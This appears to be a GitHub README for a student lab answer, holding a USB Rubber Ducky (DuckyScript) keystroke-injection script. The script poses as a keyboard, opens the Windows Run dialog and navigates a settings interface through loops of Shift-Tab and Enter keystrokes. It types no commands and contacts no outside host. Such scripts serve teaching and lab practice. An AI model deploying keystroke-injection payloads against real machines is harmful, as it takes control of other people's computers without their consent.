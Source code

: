 ### LAB 1 USB RUBBER DUCKY CODE AND VIDEO

![ezgif-6-63ece3d10c](https://github.com/gjentig4/lab_answers/assets/58633185/525e1a59-5222-4e40-9f99-ebd1a606b718)


```
ATTACKMODE HID STORAGE
DELAY 1000 
VAR $T = 70

GUI r 
DELAY 1000

VAR $LOOP1 = 14
VAR $I = 1

WHILE ($I < $LOOP1)
    SHIFT TAB
    DELAY $T 
    $I = ($I + 1)
END_WHILE

DELAY 500
ENTER

VAR $J = 1
VAR $LOOP2 = 6
WHILE ($J < $LOOP2)
    SHIFT TAB
    DELAY $T 
    $J = ($J + 1)
END_WHILE

DELAY $T
ENTER
REM TEST
DELAY 500
ENTER
DELAY 500
ENTER
DELAY 500
SHIFT TAB
DELAY $T
SHIFT TAB
DELAY $T
SHIFT TAB
DELAY $T
ENTER
DELAY 300
ESCAPE
DELAY 600


VAR $LOOP3 = 9
VAR $K = 1

WHILE ($K < $LOOP3)
    SHIFT TAB
    DELAY $T 
    $K = ($K + 1)
END_WHILE


ENTER
DELAY 500
TAB
DELAY $T
ENTER
DELAY 500

VAR $L = 1

WHILE ($L < $LOOP3)
    SHIFT TAB
    DELAY $T 
    $L = ($L + 1)
END_WHILE

ENTER
```


